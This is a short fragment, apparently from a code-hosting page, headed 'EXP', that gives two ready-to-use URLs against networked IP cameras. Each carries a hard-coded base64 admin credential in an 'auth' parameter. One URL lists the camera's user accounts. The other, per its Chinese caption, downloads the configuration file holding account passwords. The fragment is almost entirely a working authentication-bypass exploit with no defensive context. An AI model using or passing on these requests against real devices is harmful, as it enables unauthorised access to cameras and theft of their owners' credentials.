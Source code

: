 EXP
---

    http://<camera.ip>/Security/users?auth=YWRtaW46MTEK

下載攝像頭配置賬號密碼文件:

    http://<camera.ip>/System/configurationFile?auth=YWRtaW46MTEK